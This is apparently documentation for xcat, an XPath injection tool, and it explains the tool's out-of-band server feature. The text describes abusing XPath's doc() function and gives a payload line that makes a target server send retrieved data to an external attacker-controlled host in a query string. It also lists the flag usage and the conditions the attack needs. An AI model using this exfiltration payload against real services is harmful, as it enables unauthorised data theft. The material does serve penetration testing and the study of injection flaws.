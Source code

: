 The out-of-bounds (OOB) server that xcat provides is a powerful way of drastically speeding up 
retrieval.

It works by abusing the XPath `doc()` function, which is used to read arbitrary local or network 
files. Using this method xcat will instruct the service to load an XML file from it's server, passing 
any data it wishes to retrieve in the query string:

`doc(concat('http://[external-host]/data/123?d=', func.encode_for_uri(TARGET EXPRESSION)))`

This requires that:
- You have an externally routable IP that the target server can connect to
- The XPath library is configured to load external documents (many default configurations allow this)
- The port is not blocked by any firewalls

To enable this feature simply pass the `--oob` flag to any xcat command.

The `--oob` flag should in a `host:port` format, and it is up to you to find a combination that works. 
To test this combination run `xcat detect` and check that the `oob-http` feature is enabled.

## Demo

This shows xcat connecting to a local server and using the `--oob` flag to retrieve the document much 
faster than other methods.

<script id="asciicast-216047" src="https://asciinema.org/a/216047.js" async></script>
